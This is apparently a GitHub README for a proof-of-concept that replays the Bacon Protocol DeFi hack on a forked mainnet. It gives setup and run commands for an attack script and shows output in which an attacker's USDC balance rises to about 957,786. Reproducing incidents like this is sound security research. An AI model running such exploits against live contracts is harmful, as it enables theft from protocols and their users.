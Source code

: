 # Bacon Protocol re-hack PoC

## How to run

Install nodejs/npm first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/eth/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
npm install
npx hardhat run scripts/attack.ts
```
You will see similar output later
```
Attacker USDC balance: 0.0
Exploiting... transcation:  0x00ce9e37ea3fb76f861cf0bc114c2d5314acd880a40f0f72d1b1292b72e4db29
Exploit complete.
Attacker USDC balance: 957786.585605
```
This means the attack is complete
> The block height of the fork is 14326931


## Link

* https://twitter.com/peckshield/status/1500105933128495108
